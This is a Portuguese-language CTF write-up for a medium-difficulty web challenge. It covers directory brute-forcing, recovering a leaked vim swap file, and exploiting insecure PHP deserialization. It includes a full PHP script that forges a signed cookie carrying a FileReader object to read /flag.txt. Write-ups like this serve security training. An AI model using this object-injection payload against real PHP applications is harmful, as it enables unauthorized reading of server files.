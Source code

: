 ```yaml
---
layout: post
title: "Vazamento de Segurança"
date: 2024-10-20
categories: [Alquymia, CTF, deserialization]
tags: [Alquymia, CTF, deserialization, deserialization insecure, PHP]
---
```


**Dificuldade:** Médio

**Pontos:** 10

## Descrição do Desafio

Você foi chamado para investigar um possível incidente de segurança em um sistema web. Durante a análise, foi identificado que um arquivo confidencial no servidor pode ter sido acessado indevidamente.

## Reconhecimento

A investigação foi iniciada utilizando o **dirsearch** para explorar a estrutura de diretórios do servidor e identificar arquivos sensíveis.

```bash
dirsearch -u http://ctf-web02.alquymia.com.br/
```

Após alguns segundos, consegui localizar o arquivo **.index.php.swp**, que é um arquivo temporário que pode conter dados sensíveis.

## Recuperação do Arquivo

O arquivo **.index.php.swp** pode ser recuperado com a seguintes comandos

```bash
wget http://ctf-web02.alquymia.com.br/.index.php.swp
vim -r index.php
[Enter]
```

## Exploração da Vulnerabilidade

Após recuperar o arquivo **.index.php.swp**, identifiquei um código vulnerável à deserialização insegura. A classe **FileReader** é responsável por ler o conteúdo de um arquivo, e o seu destrutor (`__destruct`) é chamado quando a instância da classe é destruída, revelando o conteúdo do arquivo especificado na propriedade **$filename**.

Aqui está o trecho relevante do código:

```php
class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

```

A vulnerabilidade permite que um atacante manipule a propriedade **$filename** ao forjar um token. Para explorar isso, criei um token com um payload que define a propriedade **$filename** para **/flag.txt**

### Criação do Token

Utilizando as funções de criação e decodificação do cookie, podemos forjar um token válido. O código PHP a seguir cria o payload necessário para acessar a **flag.tx**t:

```php
<?php

class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

$key = 'my_secret_key_1234'; 

function createSecureCookie($data, $key) {
    $serialized_data = serialize($data); 
    $encoded_data = base64_encode($serialized_data); 
    $hmac = hash_hmac('sha256', $encoded_data, $key);
    return base64_encode($encoded_data . '::' . $hmac); 
}

// Criar o payload
$data = new FileReader();
$data->filename = '/flag.txt';
$token = createSecureCookie($data, $key);

// Encodar o token em URL
$encoded_token = urlencode($token);

// Exibir o token encodado
echo $encoded_token."\n\n";
?>
```

### Executando o Script

1. O código acima deve ser salvo em um arquivo chamado `create_token.php`.
2. O script pode ser executado no terminal utilizando o PHP:
    
    ```bash
    php create_token.php
    ```
    
3. O script exibirá um token

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/46362ba8-99b2-4e2f-9bb2-11f74ef0b082/image.png?table=block&id=11d08a9d-4762-448e-b488-2a903de075d9&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=dhimjPfCIzonB1KJijs4aJDm3Wl8cADi8BM6Hiyvlxs&downloadName=image.png)

### Usando o Token

O token deve ser definido como um cookie **user_data** e acessado na página que processa esse cookie. O destrutor da classe **FileReader** será invocado, permitindo que o conteúdo de **/flag.txt** seja exibido.

Para definir o cookie no navegador, deve-se acessar o console de desenvolvimento e navegar até a aba "Application". 
A seguir, o token pode ser adicionado na seção de cookies.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/5412bbfb-1440-4bb6-8dc4-715042cc6601/image.png?table=block&id=fad3e32a-ded3-49db-b5af-0ad5eb0cf11b&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=1Xyn-zSqzGMrQIEelbfxwIQO-PWUvm4PJRW2AHWN7QM&downloadName=image.png)

Após definir o cookie, ao acessar a página correspondente, o conteúdo da **/flag.txt** aparecerá no final da fonte da página.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/1416fb9c-ae7d-4635-8776-d8d391559285/image.png?table=block&id=27456782-b89b-4253-a44d-0fbaa886f934&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=vjd2qD81Slf_V1iRg2daD7QChLhOLgX6CooIzofIOkg&downloadName=image.png)
